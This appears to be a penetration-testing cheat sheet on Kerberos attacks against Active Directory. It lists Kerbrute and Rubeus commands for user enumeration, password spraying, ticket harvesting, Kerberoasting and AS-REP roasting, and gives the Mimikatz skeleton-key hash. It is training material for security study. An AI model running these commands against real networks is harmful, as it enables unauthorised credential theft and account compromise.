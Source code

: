 ### Enumerating Users Kerbrute
#### [Kerbrute](https://github.com/ropnop/kerbrute)
A tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication

User Enumeration
```shell
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
```

Password Spray
```shell
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```
#### [Rubeus](https://github.com/GhostPack/Rubeus)
Rubeus is a C# toolset for raw Kerberos interaction and abuses.

Harvesting Tickets (harvest for TGTs every 30 seconds)
```shell
rubeus.exe harvest /interval:30
```
Brute-Forcing/Password-Spraying
```shell
rubeus.exe brute /password:Password1 /noticket
```
Kerberoasting
```shell
rubeus.exe kerberoast
```
Dumping KRBASREP5 Hashes
```shell
rubeus.exe asreproast
```
#### [Mimikatz](https://github.com/ParrotSec/mimikatz)
It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.

Kerberos Backdoors 

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"



## Reference
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023
- https://docs.google.com/spreadsheets/d/18weuz_Eeynr6sXFQ87Cd5F0slOj9Z6rt
- https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8
- https://portswigger.net/
- https://tryhackme.com/
- https://book.hacktricks.wiki/
